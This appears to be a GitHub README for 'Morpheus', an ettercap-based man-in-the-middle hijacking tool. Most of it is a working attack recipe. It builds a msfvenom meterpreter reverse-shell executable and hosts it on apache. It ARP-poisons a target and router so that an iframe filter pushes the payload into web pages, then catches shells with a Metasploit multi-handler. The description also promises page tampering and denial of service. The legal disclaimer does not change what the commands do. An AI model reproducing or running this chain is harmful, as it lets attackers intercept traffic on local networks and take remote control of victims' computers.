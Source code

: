 [![Version](https://img.shields.io/badge/MORPHEUS-1.0-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-developing-red.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-linux-orange.svg)]()
[![Github All Releases](https://img.shields.io/github/downloads/atom/atom/total.svg)]()
[![AUR](https://img.shields.io/aur/license/yaourt.svg)]()

# Morpheus - automated ettercap TCP/IP Hijacking tool
    Version release : v1.0-Alpha
    Author : pedro ubuntu  [ r00t-3xp10it ]
    Distros Supported : Linux Ubuntu, Kali, Mint, Parrot OS
    Suspicious-Shell-Activity (SSA) RedTeam develop @2016

# LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use
    of this tool, remember that attacking targets without prior
    consent is illegal and punished by law.

# Framework description
    morpheus.sh framework automates tcp/ip packet manipulation tasks by using
    ettercap filters to manipulate tcp/udp requests under MitM attacks replacing
    the http packet contents by our own contents befor sending the http packet
    back to the host that have request for it (tcp/ip hijacking)

    work floow:
    1º - poison local lan (mitm)
    2º - target requests webpage
    3º - attacker modifies webpage response
    4º - modified packet forward back to target

# What can we acomplish by using ettercap filters?
    morpheus ships with a collection of etter filters writen be me to acomplish various tasks:
    replacing images in webpage, replace text in webpages, inject payloads using html <form> tag
    and denial-of-service attack (drop,kill packets from source), this tool also gives you the
    ability to build/compile your etter filter from scratch and lunch it truth morpheus.

# Dependencies
    ettercap, zenity

# Build msfvenom binary
    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=666 -f exe -o payload.exe



# Compile [filter].eft filter into iframe.ef
    sudo etterfilter /root/iframe.eft -o /root/iframe.ef

# copy files to apache2 webroot
    sudo cp /root/payload.exe /var/www/html

# Sart apache2 service
    /etc/init.d/apache2 start

# ip_forwarding
    echo "1" > /proc/sys/net/ipv4/ip_forward

# run ettercap mitm+filter
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip/ /routerip/


# IF YOUR PC USES IPV6 THEN USE THIS CONFIG INSTEAD OF THE ABOVE CODE
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip// /routerip//


# Start a multi-handler
    sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.67; set LPORT 666; set PAYLOAD windows/meterpreter/reverse_tcp; exploit -j -k'


_EOF
